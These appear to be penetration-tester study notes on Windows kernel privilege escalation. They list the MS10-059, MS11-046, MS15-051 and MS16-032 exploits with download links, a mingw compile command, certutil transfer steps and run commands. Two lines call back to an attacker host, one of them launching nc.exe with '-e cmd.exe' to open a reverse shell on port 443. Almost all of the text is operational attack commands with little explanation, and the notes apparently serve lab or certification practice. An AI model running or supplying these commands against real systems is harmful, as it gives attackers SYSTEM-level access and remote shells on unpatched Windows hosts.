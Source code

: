 
![[0.__PrivEsc Tools (WINDOWS)#windows-exploit-suggester py]]

[[__.Links (WINDOWS)#Escalation Path Kernel Exploits]]



#### Chimi Churraskito MS10-059

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

![[4._File Transfers#Certutil]]

```bash - kail
MS10-059.exe $KALI 443
```


#### MS11-046

```bash - kali
searchsploit -m 40564
```

```bash - kali
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Transfer to Target.

[[4._File Transfers#Certutil]]

Now just run it.
```bash - kali
MS11-046.exe
```

#### MS15-051

MS15-051 exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

Download zip folder and extract.

Transfer over exe and nc.exe to target

![[4._File Transfers#Certutil]]

[[1._rlwrap]]

```batch - windows
ms15-051x64.exe "nc.exe $KALI 443 -e cmd.exe"
```



#### MS16-032

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032

Transfer exe over to target

[[4._File Transfers#Certutil]]

```
.\ms-16-032.exe
```






















